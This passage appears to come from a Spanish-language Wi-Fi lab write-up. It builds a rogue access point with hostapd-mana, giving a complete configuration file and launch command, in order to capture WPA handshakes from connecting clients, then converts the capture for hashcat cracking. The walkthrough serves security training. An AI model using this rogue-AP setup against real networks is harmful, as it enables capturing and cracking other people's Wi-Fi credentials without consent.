 Algo que podemos hacer es crear  un **Fake AP** utilizando **hostapd-mana** para obtener el **handshake** básicamente cuando un cliente se quiera conectar a ese **AP** se conectara al de nosotros realmente, así que vamos a crear un `.conf` para poder hacer esto 

```bash
interface=wlan1
driver=nl80211
hw_mode=g
channel=1
ssid=wifi-offices
mana_wpaout=hostapd.hccapx
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=12345678
```

Ahora usamos `hostapd-mana` para que el **AP** funcione correctamente

```bash
❯ hostapd-mana host.conf
```

![](/assets/images/wifi-challenge-lab2/mana.png)

Ahora usaremos **hashcat**

```bash
❯ hcxhash2cap --hccapx=hostapd.hccapx -c aux.pcap 
```
